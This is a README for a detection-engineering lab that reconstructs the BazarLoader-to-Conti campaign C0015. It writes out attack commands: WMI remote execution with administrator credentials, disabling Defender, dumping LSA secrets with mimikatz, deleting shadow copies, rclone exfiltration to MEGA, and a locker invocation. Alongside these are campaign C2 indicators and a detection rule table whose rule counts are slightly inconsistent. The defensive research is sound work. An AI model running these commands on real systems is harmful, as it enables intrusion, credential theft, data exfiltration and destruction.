



# C0015 - BazarLoader to Conti, reconstructed for detection engineering


Between 2 and 6 August 2021, an operator entered a corporate network through a weaponised Word
document, moved a beacon into `winlogon.exe`, pivoted to a backup server through WMI, exfiltrated data
to MEGA with `rclone` over two evenings, and encrypted the estate with Conti from a batch file. The
DFIR Report published the case as C0015. This repository reconstructs the campaign as an instrumented
lab: three Windows hosts on a host-only segment, a Sliver C2 that replaces Cobalt Strike, the same
process ancestry where the campaign documents it, and a detection suite that maps each stage to the
telemetry it leaves behind.

The purpose of the reconstruction is narrow. Every technique is reproduced with real tooling rather
than with a signature stub, so the resulting events are the events a real detection stack would
receive: a document spawning a script host, a loader writing into a directory a service executes from,
a credential dumping tool reading a stored secret, a provider host creating a process on another
machine, a service installed from `ProgramData`, a cloud transfer with throttling flags, a locker
started with a fixed argument set. The rules in this repository were written against those events and
are stored beside the technique that produces them.

Where the report is silent, the lab says so. It does not document how the operator obtained the
credential used for the WMI pivot. The reconstruction therefore builds an explicit, realistic path to
that credential - a monitoring agent that executes scripts from a user-writable directory, and a backup
service that stores the domain administrator password in LSA secrets - and records the substitution in
[`docs/study/gaps.md`](docs/study/gaps.md). It is a lab weakness, not a claim about the campaign.

## Read this first (5 minutes)

1. `docs/study/architecture.md` - hosts, accounts, the two lab weaknesses.
2. [`reports/tickets/T-003-lateral-impact.md`](reports/tickets/T-003-lateral-impact.md) - the complete case: WMI, injection, persistence across a reboot, impact.
3. [`detections/README.md`](detections/README.md) - the rule table and the validation window.
4. `detections/eql/14-injection-into-svchost.eql`, `17-dns-then-beacon-connection.eql`, `19-boot-persistence-task.eql` - the three rules that carry the scenario.

## Start here

Three ways in, depending on what you want to check.

| Goal | Path |
|---|---|
| Read the chain phase by phase | [`kill-chain/README.md`](kill-chain/README.md) |
| Run it yourself | [`attack-playbook/README.md`](attack-playbook/README.md) |
| Read one investigation end to end | [delivery case](reports/cases/01-delivery.md), [privilege case](reports/cases/02-privilege-credential.md), [impact case](reports/cases/03-lateral-impact.md) |
| Check the rule set | [`detections/catalog.json`](detections/catalog.json) and the generated [`detections/INDEX.md`](detections/INDEX.md); per-hit notes in [`detections/validation.md`](detections/validation.md) |
| See the tooling and the commands | [`tools/README.md`](tools/README.md) |

The cases start from an alert, resolve the source events by index and id, and stop where the telemetry
stops. The evidence is captured by the operator's own run; the repository does not ship a run it did
not produce.

## Status of this repository

| Area | State |
|---|---|
| Chain design | rebuilt in November 2026 around the agent escalation and the LSA secret; documented in `kill-chain/` |
| Package integrity | verified by `detections/tools/catalog.py --check` (hashes, tracked files, orphans, ignore rules) |
| Markdown links | verified by `.github/scripts/check_links.py` |
| EQL engine validation | run on Elasticsearch 9.5.3 over `2026-11-20T11:30Z -> 12:10Z`; every shipped entry records `validation.kind = engine_run` and its match count |
| Elastic detection integration | rules are built from the catalog and applied by `detections/tools/kibana_bundle.py`; the `deployment` block records index patterns and schedule |
| Evidence | schema and capture/validation tooling in `evidence/`; the reference run is the operator's manual run, captured with that tooling |
| Sensor contract | Sysmon profile in `infra/sysmon/`; the fields each rule depends on are listed per entry in the catalog |

The earlier runs and their screenshots were removed when the chain changed. Nothing in `reports/` is
backed by a capture of this chain yet; the cases record the expected evidence and the questions the
capture must answer.

## Table of contents

- [The original campaign](#the-original-campaign)
  - [Timeline](#timeline)
  - [Process ancestry](#process-ancestry)
  - [Technically significant behaviour](#technically-significant-behaviour)
  - [What the report does not establish](#what-the-report-does-not-establish)
- [The lab](#the-lab)
  - [Delivery and proxy execution](#delivery-and-proxy-execution)
  - [From the agent to SYSTEM](#from-the-agent-to-system)
  - [The stored administrator secret](#the-stored-administrator-secret)
  - [Lateral movement to the backup server](#lateral-movement-to-the-backup-server)
  - [Persistence as a service](#persistence-as-a-service)
  - [Collection, exfiltration and impact](#collection-exfiltration-and-impact)
  - [Lab process ancestry](#lab-process-ancestry)
- [Repository structure](#repository-structure)
- [Detection opportunities](#detection-opportunities)
- [How to run the lab](#how-to-run-the-lab)
- [Credits and references](#credits-and-references)

## The original campaign

### Timeline

**Day 1.** A password-protected archive delivered by phishing contains a document named
`decree-08.03.2021.doc`. The file extension says Word 97-2003; the content is Word 2003 XML with an
embedded VBA project. The document asks the user to enable macros. Once enabled, the macro writes an
HTML Application, `compareforfor.hta`, into the user profile and starts it.

`mshta.exe` runs the HTA. The script mixes VBScript and JScript, decodes a base64 blob, and issues an
HTTP GET to `millscruelg[.]com` with query parameters shaped like a search result. The response is
written to `C:\Users\Public\compareForfor.jpg` and executed with `regsvr32.exe`. The file is a DLL; the
extension is an image.

The module is BazarLoader. It calls `64.227.65[.]60:443`, spawns `svchost.exe`, and queries
`myexternalip[.]com` for the network's public address. Two Cobalt Strike DLLs are then loaded through
`rundll32.exe` with `svchost.exe` as the parent. `D574.dll` never reaches its infrastructure: it
queries `volga.azureedge[.]net` repeatedly and receives a non-existent name. `D8B3.dll` connects to
`82.117.252.143` on port 80 and 443, using a Let's Encrypt certificate for `checkauj.com` and a
malleable profile whose GET and POST URIs are `/jquery-3.3.1.min.js` and `/jquery-3.3.2.min.js`. The
beacon sleeps sixty seconds with thirty-seven percent jitter.

`D8B3.dll` then allocates memory in `winlogon.exe` and creates a thread there. From that moment the
operator works inside a SYSTEM process. Discovery follows within the same hour: `tasklist /s`,
`net group "domain admins" /dom`, `net localgroup "administrator"`,
`nltest /domain_trusts /all_trusts`, `net view /all /domain`, per-host `net view \\host /all`, `ping`,
and `time`, each as its own `cmd.exe /C` invocation. `AdFind` is written to disk and never executed.

Share enumeration runs `Invoke-ShareFinder` through a download cradle and writes
`C:\ProgramData\found_shares.txt`. The file is created by the beacon process, not by PowerShell.

At 18:43 the operator pivots to the backup server:

```
cmd.exe /C wmic /node:<backup server> process call create "rundll32.exe C:\ProgramData\143.dll DllRegisterServer"
```

The DLL was written to `C:\ProgramData` first. On the target, `WmiPrvSE.exe` creates `rundll32.exe`,
which loads `143.dll` and calls the export. That beacon moves into
`svchost.exe -k UnistackSvcGroup -s CDPUserSvc`, the per-user service host. The first `rclone` round
starts at 19:45 and runs for about three hours against `Mega:DATA`.

**Day 2.** The operator connects to the backup server over RDP and opens the backup console. Task
Manager is started from the desktop; the resulting command line carries `/4`, the argument the GUI
passes when the Performance tab is opened.

**Day 4.** A second `rclone` round runs in the same evening window, reusing `--ignore-existing` so only
new files are transferred.

**Day 5.** A ping sweep establishes which hosts are reachable. AnyDesk is dropped into
`c:\users\<user>\Videos\` and started. ProcessHacker is placed in the root of `C:` and used against
`lsass.exe`; the report states the access as likely and does not confirm a dump. A batch file,
`locker.bat`, is then executed from the backup server. For each host it starts a locker binary against
the administrative share:

```
C:\<random>_locker.exe -m -net -size 10 -nomutex -p \\<TARGET>\C$
```

Encryption proceeds per host. A `readme.txt` is written into every affected directory. The operator
closes the run by listing `\\<TARGET>\C$` to confirm the result.

### Process ancestry



### Technically significant behaviour

**The handoff from loader to beacon.** BazarLoader is not the tool the operator uses. It exists to
place a second loader host and start the Cobalt Strike DLLs. The observable is a `svchost.exe` whose
children are `rundll32.exe` processes, one of which fails and one of which becomes the primary channel.

**Injection into `winlogon.exe`.** The beacon does not remain in the process that loaded it. Moving
into the logon process converts a user-level foothold into SYSTEM and changes the parent of every
subsequent command. This single step is what makes the discovery, the WMI pivot, and the RDP session
look the way they do.

**WMI as the pivot primitive.** `wmic process call create` with a `/node:` argument is a remote
execution path that needs no service installation and no file copy through a service manager. The
target-side observable is `WmiPrvSE.exe` spawning the loader. It is not WMI event subscription; no
filter, consumer, or binding is created.

**Injection into the per-user service host.** `CDPUserSvc` runs as the logged-on user, so the second
injection needs no privilege escalation. The host choice determines the network attribution: the
callback and the RDP socket belong to `svchost.exe`.

**Cloud exfiltration with throttling.** `rclone` against a MEGA remote, with a bandwidth ceiling and
seven parallel transfers, twice, in the same evening window. The ceiling keeps the transfer below
saturation, which is why it survives for hours without drawing attention.

**Impact from the backup server.** The batch file runs on the backup server and targets
`\\HOST\C$` for each host. The DC is not part of the target list.

### What the report does not establish

Two points are unresolved. The credential used for the WMI pivot has no documented origin: no LSASS
access is recorded before the pivot, and no credential material appears in the report. And the
ProcessHacker step is described as likely LSASS access rather than a confirmed dump.

The lab does not invent either. It supplies the extra privilege through a documented configuration
weakness and recovers the pivot credential from a stored secret, and it states both choices in the
technique folders and in [`docs/study/gaps.md`](docs/study/gaps.md). It does not claim the campaign
performed those exact steps.

## The lab

The lab keeps the campaign's shape and changes the parts the report does not document. The victim is a
standard user. The entry chain is the same document, macro, HTA and `regsvr32` loader. Instead of a
loader that injects into a system process, the loader writes a script into a directory that a
monitoring agent executes as `LocalSystem`. The agent gives SYSTEM, and SYSTEM reads the LSA secret of a
backup service that runs as the domain administrator. The recovered credential drives WMI to the backup
server, where a second beacon is installed as a service, then the transfer and the impact.

### Delivery and proxy execution

`decree-08.03.2021.docm` sits on the desktop of `duc.user`, a standard domain user. Opening it runs
the macro in `macro-payload.vba`. The document is the only file delivered: on open the macro writes
`C:\Users\Public\C0015\config.ini` and `C:\Users\Public\C0015\compareforfor.hta` from base64
blobs it carries, then starts `mshta.exe` on the HTA. The HTA downloads
`C:\Users\Public\compareForfor.jpg` from the staging server and runs it with `regsvr32.exe`.

The module is `loader-regsvr32.c`: a DLL whose `DllRegisterServer` downloads `agent-update.ps1` and
writes it to `C:\ProgramData\HealthMonitor\checks\update.ps1`. The loader has no privilege; it only
needs the `Modify` right that `Users` holds on that directory.



### From the agent to SYSTEM

`HealthMonitor` is a service in the lab image. It runs as `LocalSystem`, and every sixty seconds it
executes each `*.ps1` in `C:\ProgramData\HealthMonitor\checks`. The checks directory is writable by
`Users` - the weakness the chain uses. The planted script downloads the beacon from the staging server
and starts it. The beacon therefore inherits the service token: SYSTEM, on the workstation, without an
exploit and without a reboot.

The agent logs the run in `C:\ProgramData\HealthMonitor\agent.log`; the loader logs its own download
in `checks\loader.log`. Both files are part of the evidence for the case.

### The stored administrator secret

`C0015Backup` is a legacy backup service. It is configured to run as `C0015\Administrator`. Windows
stores the service account password as an LSA secret, `_SC_C0015Backup`, and that secret is readable by
SYSTEM. On the beacon, `mimikatz.exe "privilege::debug" "lsadump::secrets" exit` returns the account
name and the password.

This is the substitution for the undocumented campaign step. A scheduled task would not work the same
way: Task Scheduler keeps its stored credential outside LSA secrets, which is why the lab uses a
service and why the rule set treats this step as a credential-access event rather than a task event.

### Lateral movement to the backup server

The operator uses the recovered password with WMI:

```
wmic /node:FS01 /user:C0015\Administrator /password:<pw> process call create "powershell -Command Set-MpPreference -DisableRealtimeMonitoring $true"
```

The first call disables Defender on FS01 and confirms `RealTimeProtectionEnabled : False`. The operator
then stages the injector as `143.dll` and the beacon as `beacon.dll`, and starts the injector:

```
wmic /node:FS01 /user:C0015\Administrator /password:<pw> process call create "rundll32.exe C:\ProgramData\143.dll,Run"
```

On the target, `WmiPrvSE.exe` creates the shell that changes Defender and the shell that runs the
injector; the injector writes `beacon.dll` into a SYSTEM `svchost.exe` and starts its `StartW` export.
Both are remote-execution observables; neither is WMI event subscription.

### Injection into the service host

The agent does not run a beacon of its own. It stages two files, `injector.dll` and `beacon.dll`, and
starts `rundll32.exe injector.dll,Run`. The injector enables `SeDebugPrivilege`, finds a `svchost.exe`
whose token is `S-1-5-18`, writes the beacon path into that process and calls the DLL's `StartW` export
with a remote thread. The beacon therefore lives inside the service host, under the SYSTEM token, which
is the behaviour the campaign shows after the loader stage.

On FS01 the same injector is dropped as `143.dll` and started over WMI. The target is again a SYSTEM
`svchost.exe`; the source of the remote thread is `rundll32.exe`, which is what R14 keys on.

Sysmon records the remote thread only if the profile includes event 8 for `svchost` targets; the lab
profile now does, and R15 covers the module load from the staging directory.

### Collection, exfiltration and impact

`fs01-task.ps1` runs on the FS01 beacon and gates each step on the endpoint state:

1. defences: real-time protection is off and Tamper Protection is off;
2. persistence: the service is running;
3. exfiltration: `rclone --config C:\ProgramData\rclone.conf copy C:\C0015\corpus Mega:DATA` exits 0
   with no `ERROR` in the log;
4. impact: `vssadmin delete shadows /all /quiet` and
   `ransomware-sim.exe -m -net -size 10 -nomutex -p C:\C0015\corpus`.

The simulator is not a cipher. It skips system directories, executables, drivers, links and paging
files, renames the remaining files with `.c0015`, and writes the note only in directories where it
changed something. A failed gate stops the run before the impact step.

### Lab process ancestry



## Repository structure

```
kill-chain/                    the chain, one folder per phase, with captured evidence
│   README.md                  the narrative and the phase map
│   techniques/                delivery, hta, loader, agent, credential, wmi, service, discovery,
│                              exfiltration, ransomware
├── attack-playbook/           operator runbook
│   ├── README.md              setup, run order, checks per step
│   ├── payloads/              loader, agent script, agent service, fs01 task, locker, macro, HTA
│   └── setup/                 the two one-time weaknesses (agent, backup service)
├── tools/                     the attack tools, with the commands and the telemetry they leave
│   ├── mimikatz/  sliver/  rclone/  impacket/  psexec/  vssadmin/  certutil/
├── detections/
│   ├── catalog.json           source of truth: 13 rules, hashes, roles, ATT&CK, validation
│   ├── INDEX.md               generated index
│   ├── README.md              how the package is built and what a role means
│   ├── eql/                   one query per behaviour
│   └── tools/                 catalog, engine check, Kibana bundle
├── docs/
│   ├── study/                 architecture, scenario contract, gaps
│   ├── detection/             generated coverage, Sigma reference
│   └── operations/            triage playbooks
├── evidence/
│   ├── schema/                evidence export schema
│   └── tools/                 capture and validation
├── reports/
│   ├── cases/                 three investigations for this chain
│   └── tickets/               the matching tickets
├── infra/                     hosts, accounts, DNS, C2 layout, Sysmon profiles
└── .github/                   link check and the CI workflow
```

Each folder under `kill-chain/techniques/` covers one behaviour rather than one tool, so the folder
name describes the activity after a tool substitution. The executable artefacts live in
`attack-playbook/payloads/`, the commands the operator runs live in `tools/`, and the rules live in
`detections/eql/`.

## Detection opportunities

The rule set and its claims live in [`detections/catalog.json`](detections/catalog.json); the index at
[`detections/INDEX.md`](detections/INDEX.md) is generated from it. Roles separate finished alerts from
and each entry records what it does not prove.

| Rule | Behaviour | Role | ATT&CK | Matches (run-4) |
|---|---|---|---|---|
| R01 | office spawns script host | alert | T1204.002 | 2 |
| R02 | script host starts loader | alert | T1218.010 | 1 |
| R03 | loader loads untrusted module | alert | T1218.010 | 1 |
| R04 | agent executes planted script | alert | T1059.001 | 1 |
| R05 | LSA secrets requested | alert | T1003.004 | 0 |
| R06 | defender real-time protection disable requested | alert | T1562.001 | 2 |
| R07 | wmi remote process creation | alert | T1047 | 6 |
| R08 | wmi hosted child process | building_block | T1047 | 6 |
| R10 | shadow copy deletion requested | alert | T1490 | 1 |
| R11 | rclone transfer invocation | alert | T1567.002 | 1 |
| R12 | locker simulator invocation | alert | T1486 | 1 |
| R13 | script written into agent checks | alert | T1574.010 | 1 |
| R14 | remote thread into service host | alert | T1055 | 6 |
| R15 | module loaded from user path | building_block | T1574 | 7 |
| R16 | campaign-domain lookup | alert | T1071.004 | 3 |
| R17 | same process resolves the domain then connects | alert | T1071.001 | 3 |
| R18 | domain and trust discovery | alert | T1087.002 | 0 |
| R19 | boot task creation requested | alert | T1053.005 | 1 |

A match is not a verdict. The engine check proves the query parses and the fields exist; precision is
measured against the run, not assumed. Counts come from the two captured runs; the table below is run-4 (`16:45Z` is run-3): the document, the injection, the discovery, the WMI pivot, the exfiltration and the impact. The per-hit notes are in [`detections/validation.md`](detections/validation.md).

## How to run the lab

### Prerequisites

| Component | Requirement |
|---|---|
| Hypervisor | VMware Workstation or equivalent, host-only network `192.168.50.0/24` |
| Hosts | DC01, WS01, FS01 as Windows 10 or Server 2019, one Linux host |
| C2 | Sliver server and client on Kali |
| Telemetry | Sysmon with the profile in `infra/sysmon/`, Elastic Agent with Security and PowerShell channels |
| Tooling | `mimikatz`, `rclone`, `impacket` (optional), mingw-w64 for the loader and the agent |
| Cloud | one MEGA account for the exfiltration stage |

### Setup

1. Apply the Sysmon profile to WS01 and FS01 and confirm events 1, 3, 7, 10, 11 and 13 arrive.
2. Create the victim: `infra/scripts/New-LabAccounts.ps1 -DomainController DC01 -Workstation WS01`.
3. Create the agent weakness: `attack-playbook/setup/install-healthmonitor.ps1`.
4. Create the backup-service weakness: `attack-playbook/setup/create-backup-service.ps1`.
5. Build the payloads with mingw-w64: the loader, the agent service and the locker.
6. Configure the MEGA remote on Kali (`rclone config`) and test `rclone lsd Mega:`.
7. Snapshot all three hosts.

### Run order

`docs/study/scenario-contract.md` holds the ordered sequence with the check that confirms each step.
The short form: open the document as `duc.user`, confirm the agent ran the planted script and the
beacon is SYSTEM, recover the administrator secret with mimikatz, disable Defender on FS01 over WMI,
install the beacon as a service, then run `fs01-task.ps1` and follow its gates.

### Expected artifacts

| Artifact | Location |
|---|---|
| Delivery document and HTA | `C:\Users\Public\C0015\` on WS01 |
| Masqueraded module | `C:\Users\Public\compareForfor.jpg` |
| Planted agent script | `C:\ProgramData\HealthMonitor\checks\update.ps1` |
| Agent and loader logs | `C:\ProgramData\HealthMonitor\agent.log`, `checks\loader.log` |
| Beacon on FS01 | `C:\ProgramData\beacon.dll` loaded into a SYSTEM `svchost.exe` |
| Ransom note | `readme.txt` in the corpus directories, removed by the restore |
| Renamed corpus | `.c0015` suffix, removed by the restore |

## Credits and references

- The DFIR Report, *CONTInuing the Bazar Ransomware Story*, 29 November 2021 -
  <https://thedfirreport.com/2021/11/29/continuing-the-bazar-ransomware-story/>. The campaign
  narrative, the process ancestry, the command lines, and the indicator set in this repository are
  derived from that report.
- MITRE ATT&CK campaign C0015 - <https://attack.mitre.org/campaigns/C0015/>
- Sliver, BishopFox - <https://github.com/BishopFox/sliver>. Used as the C2 framework in place of
  Cobalt Strike.
- Sysmon, Microsoft Sysinternals - <https://learn.microsoft.com/sysinternals/downloads/sysmon>
- rclone - <https://rclone.org/>
- Mimikatz, Benjamin Delpy - <https://github.com/gentilkiwi/mimikatz>
- Impacket - <https://github.com/fortra/impacket>
- Elastic Security - <https://www.elastic.co/security>

### Defensive use

The material in this repository exists for defensive research and detection engineering. The payloads
are benign surrogates, the C2 is a lab deployment, the corpus is synthetic, and the impact stage
renames files without encrypting them. The infrastructure is confined to a host-only segment. The
campaign hostnames are resolved by a local zone and never reach the internet. Nothing here is intended
for use outside an isolated environment that the operator owns.

Licensed under the MIT licence. See [LICENSE](LICENSE).

